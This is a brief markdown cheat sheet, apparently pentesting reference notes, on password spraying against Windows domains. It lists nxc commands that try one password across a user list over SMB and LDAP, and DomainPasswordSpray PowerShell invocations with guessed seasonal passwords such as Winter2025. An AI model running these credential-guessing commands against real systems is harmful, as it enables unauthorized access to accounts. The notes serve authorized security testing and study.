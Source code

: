 # Password Spraying
NOTE: Always check or confirm lockout threshold
## nxc
1. Test a single password value with a list of user names
SMB Example:
```
nxc smb 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
LDAP Example:
```
nxc ldap 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
## DomainPasswordSpray
[DomainPasswordSpray Project](https://github.com/dafthack/DomainPasswordSpray)
PowerShell tool
```
. .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Spring2017
```
The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2025.
```
Invoke-DomainPasswordSpray -UserList .\users.txt -Password Winter2025 -Verbose
```

